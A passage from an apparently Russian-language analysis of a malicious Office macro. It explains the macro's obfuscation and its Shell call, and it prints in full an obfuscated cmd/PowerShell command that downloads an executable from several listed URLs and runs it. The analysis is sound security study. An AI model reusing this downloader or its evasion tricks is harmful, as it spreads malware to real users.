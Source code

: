       Case 428217029
         wtkadzs = ihdpjs
         bizczv = Log(97188184)
End Select
</pre>

Куча бесполезных select - это последствия обфускации, на это можем не обращать внимание. Что нас больше всего интересует, так это строка:

`ziilnp = ziilnp(Interaction.Shell(zdwrhc, vbHide))`

Interaction.Shell - выполняет переданную команду (нашу строку). Разберем подробнее наш пейлоад:

`c:\onjzioi\izwolr\poicwo\..\..\..\windows\system32\cmd.exe` - здесь избегается детектирование по прямому пути к cmd.exe, используя Directory traversal attack.

`/c %ProgramData:~0,1%%ProgramData:~9,2%` - это передается на выполнение cmd.exe. %ProgramData% - это C:\ProgramData. ~0,1 - означает, начиная с 0-го элемента, вывести 1 символ - "C". ~9,2 - с 9-го элемента, берем два символа - "mD". В итоге получаем строку "CmD":

![](/assets/images/ru//OfficeMalware/echo%20obfuscated%20program%20data.png)

Это один из методов обфускации вызова cmd.exe, наряду с %COMSPEC%. Оставшаяся часть строки:

`/V:ON/C"set SiQ=;'cjqhpb'=qijmnd$}}{hctac}};kaerb;'bchkzfb'=dqkzr$;hkjzjlz$ metI-ekovnI{ )00004 eg- htgnel.)hkjzjlz$ metI-teG(( fI;'jrkjik'=ciikdj$;)hkjzjlz$ ,qjcaki$(eliFdaolnwoD.irhwidj${yrt{)ujbwa$ ni qjcaki$(hcaerof;'exe.'+zbwnifi$+'\'+pmet:vne$=hkjzjlz$;'ziwmvv'=pzrifoh$;'904' = zbwnifi$;'scjmbw'=fmsqvii$;)'@'(tilpS.'41fpegeLDajCgKnc/moc.ssenisubrusoh.www//:ptth@Mw6O63Df_Cm066CcdkU7o/moc.aicizyhp.www//:ptth@j7OEo_7MhAbZp6jnHp/zt.oc.skeegt.liam//:ptth@8or1uzsdZ8vie/RXI/sedulcni-pw/moc.srevirehtybkramdnal//:ptth@R8Fd3N9UmbYBzI/ten.enoniletoh.www//:ptth'=ujbwa$;tneilCbeW.teN tcejbo-wen=irhwidj$;'imsizuu'=iijirwb$ ll%1,3-~:PMET%h%1,4-~:EMANNOISSES%r%1,5~:CILBUP%wop&&for /L %h in (657,-1,0)do set nu=!nu!!SiQ:~%h,1!&&if %h equ 0 echo !nu:~-658!| cmd"` 
